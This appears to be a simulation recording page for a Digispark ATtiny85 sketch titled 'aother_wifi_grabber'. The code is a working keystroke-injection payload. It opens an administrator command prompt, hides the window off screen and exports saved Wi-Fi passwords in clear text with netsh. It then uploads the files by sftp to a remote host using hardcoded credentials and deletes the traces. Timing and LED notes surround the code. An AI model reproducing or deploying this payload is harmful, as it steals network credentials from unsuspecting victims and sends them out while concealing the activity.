
Recording of a sketch running on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 124.4 s:

Timing chart, 0 to 125.9 s (numbered marks = the images above):


The sketch:

aother_wifi_grabber.ino
```cpp
// Author : thehwiteh4t //
#define kbd_tr_tr

#include "DigiKeyboard.h"
void setup() {
  pinMode(1, OUTPUT);
  #define KEY_ARROW_DOWN 0x51
}
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1100);
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER, MOD_CONTROL_LEFT + MOD_SHIFT_LEFT);
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_M);
  int i;
  for(i=1;i<100;i++) {
    DigiKeyboard.sendKeyStroke(KEY_ARROW_DOWN);
  }
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("cd %temp%");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("@netsh wlan export profile key=clear >nul");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("sftp ak1n@10.0.2.15");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("yes");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000);
  DigiKeyboard.print("Akinates90.");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("mput *.xml");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("bye");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(200);
  DigiKeyboard.print("del /f /q /s *.xml >nul");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
```

Measured:
- by itself, PB1: LOW → HIGH at 14.7 s, → LOW 90.0 s later, → HIGH 19.7 s later
